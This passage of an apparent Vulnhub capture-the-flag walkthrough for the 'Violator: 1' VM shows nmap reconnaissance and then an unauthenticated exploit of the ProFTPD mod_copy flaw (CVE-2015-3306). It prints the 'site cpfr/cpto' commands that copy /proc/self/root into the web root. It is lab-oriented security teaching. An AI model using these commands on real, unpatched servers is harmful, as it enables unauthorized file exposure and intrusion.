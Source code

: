 ```yaml
---
title: "Violator: 1, Vulnhub Walkthrough"
layout: post
category: writeup
tags: [vulnhub, hacking]
excerpt: "Walkthrough for Violator: 1 VM on Vulnhub"
---
```


 Before I begin, here's some hints given at the start of the vm:

 - Vince Clarke can help you with the Fast Fashion.
 - The challenge isn’t over with root. The flag is something special.
 - I have put a few trolls in, but only to sport with you.

# Get the IP and check for services

```
paul@archyoga [04:21:07] [~]
-> % nmap -sn 192.168.1.0/24 | grep violator
Nmap scan report for violator (192.168.1.108)
paul@archyoga [04:21:36] [~]
-> % nmap -p- -sV 192.168.1.108

Starting Nmap 7.12 ( https://nmap.org ) at 2016-07-09 16:21 EDT

Nmap scan report for violator (192.168.1.108)
Host is up (0.0086s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5rc3
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.49 seconds
```

So there's a website and an proFTPD v1.3.5rc3 server running on the machine. The website just says "I Say.. I say... I say boy! You're barkin up the wrong tree!" along with Foghorn Leghorn.

However, in the source I found this: ```<-- https://en.wikipedia.org/wiki/Violator_(album) -->```

I found an exploit through [http://exploit-db.com](http://exploit-db.com) for proFTPD 1.3.5 (CVE: 2015-3306) that allows you to copy files without logging into the server:

I wasn't sure what to copy, so I just copied anything I could by copying ```/proc/self/root``` to ```/var/www/html/root```, this making everything except the root user directory accessible:

```
paul@archyoga [04:49:25] [~]
-> % ftp 192.168.1.108
Connected to 192.168.1.108.
220 ProFTPD 1.3.5rc3 Server (Debian) [::ffff:192.168.1.108]
Name (192.168.1.108:paul):
331 Password required for paul
Password:
530 Login incorrect.
ftp: Login failed.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> site cpfr /proc/self/root
350 File or directory exists, ready for destination name
ftp> site cpto /var/www/html/root
250 Copy successful
```